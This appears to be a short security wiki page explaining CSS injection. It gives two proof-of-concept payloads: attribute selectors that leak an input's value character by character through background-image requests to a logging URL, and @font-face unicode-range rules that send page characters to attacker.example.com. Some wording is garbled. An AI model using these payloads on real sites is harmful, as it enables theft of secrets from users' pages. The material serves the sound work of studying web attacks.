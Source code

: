 CSS Injection
================================

Basic introduction
--------------------------------
CSS injection first started by using functions or features such as ``expression()``````````````````` in CSS to introduce external malicious code, but with the development of browsers, this These methods have been gradually disabled, and at the same time, some new attack methods have emerged.

CSS selectors
--------------------------------
::

<style>
#form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
#form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
#form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
[...]
</style>
<form action="http://example.com" id="form2">
<input type="text" id="secret" name="secret" value="abc">
</form>

The above image is an example of using CSS selectors to complete an attack

Abusing Unicode Range
--------------------------------
When CSS can be inserted, you can use ``font-face`` to get the corresponding character set of the destination web page with ``unicode-range``. PoC is as follows

::

<style>
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range:U+0041;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range:U+0042;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range:U+0043;
}
#sensitive-information{
font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>


When there are many characters, you can narrow the scope with CSS attributes such as ``::first-line`` to obtain more precise content
